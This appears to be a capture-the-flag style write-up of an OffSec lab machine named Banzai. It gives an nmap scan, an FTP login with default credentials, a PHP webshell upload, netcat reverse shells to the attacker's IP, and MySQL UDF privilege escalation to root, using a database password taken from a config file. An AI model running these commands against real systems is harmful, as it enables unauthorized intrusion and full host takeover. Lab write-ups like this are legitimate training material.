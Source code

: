 ```sh
nmap -sC -sV -Pn -p- 192.168.56.56
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-05 22:09 EST
Nmap scan report for 192.168.56.56
Host is up (0.0010s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT     STATE  SERVICE    VERSION
20/tcp   closed ftp-data
21/tcp   open   ftp        vsftpd 3.0.3
22/tcp   open   ssh        OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 ba:3f:68:15:28:86:36:49:7b:4a:84:22:68:15:cc:d1 (RSA)
|   256 2d:ec:3f:78:31:c3:d0:34:5e:3f:e7:6b:77:b5:61:09 (ECDSA)
|_  256 4f:61:5c:cc:b0:1f:be:b4:eb:8f:1c:89:71:04:f0:aa (ED25519)
25/tcp   open   smtp       Postfix smtpd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=banzai
| Subject Alternative Name: DNS:banzai
| Not valid before: 2020-06-04T14:30:35
|_Not valid after:  2030-06-02T14:30:35
|_smtp-commands: banzai.offseclabs.com, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8
5432/tcp open   postgresql PostgreSQL DB 9.6.4 - 9.6.6 or 9.6.13 - 9.6.17
| ssl-cert: Subject: commonName=banzai
| Subject Alternative Name: DNS:banzai
| Not valid before: 2020-06-04T14:30:35
|_Not valid after:  2030-06-02T14:30:35
|_ssl-date: TLS randomness does not represent time
8080/tcp open   http       Apache httpd 2.4.25
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: 403 Forbidden
8295/tcp open   http       Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Banzai
Service Info: Hosts:  banzai.offseclabs.com, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 174.44 seconds

```

Logging into FTP, the credentials admin:admin works.

It appears that this a backend upload to apply to website. Started searching though and found 8295 works.

Uploaded a php reverse shell without success. I then tried an advanced backdoor and then finally a simple backdoor. All from /usr/share/webshells/php

`http://192.168.56.56:8295/simple-backdoor.php?cmd=cat+%2Fhome%2Fbanzai%2Flocal.txt`
This reads the local file.

`http://192.168.87.56:8295/simple-backdoor.php?cmd=nc+-e+/bin/sh+192.168.49.87+21`

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Multiple ports were tested and I found that 21 will allow the connection out.

```ls
config.php
html
cat config.php
<?php
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'EscalateRaftHubris123');
define('DBNAME', 'main');
?>
```
Running to check on what mysql is running as
```
ps -aux | grep mysql
```
It is running as root.

```sh
www-data@banzai:/var/www/html$ mysql -u root -pEscalateRaftHubris123
mysql -u root -pEscalateRaftHubris123
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 4
Server version: 5.7.30 MySQL Community Server (GPL)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

```

Once way that is possible is Raptor_UDF. This did not work for me in testing and would say that the file ended too soon.
https://www.exploit-db.com/exploits/1518
https://steflan-security.com/linux-privilege-escalation-exploiting-user-defined-functions/

```sh
searchsploit -m linux/local/1518.c
gcc -g -c 1518.c -o raptor_udf2.o -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

This was another method.
https://github.com/rapid7/metasploit-framework/tree/master/data/exploits/mysql

Verified version with uname -a and downloaded the udf file for x64.
Uploaded using the FTP using admin:admin. 

```sh
mysql -u root -p EscalateRaftHubris123
create table test(line blob);
insert into test values(load_file('/var/www/html/lib_mysqludf_sys_64.so'));
select * from test into dumpfile '/usr/lib/mysql/lib_mysqludf_sys_64.so';
create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';
select sys_exec('nc -e /bin/sh 192.168.45.5 22');
```

Started nc -lvnp 22
Got a reverse shell on port 22 and was able to open proof.txt as root.

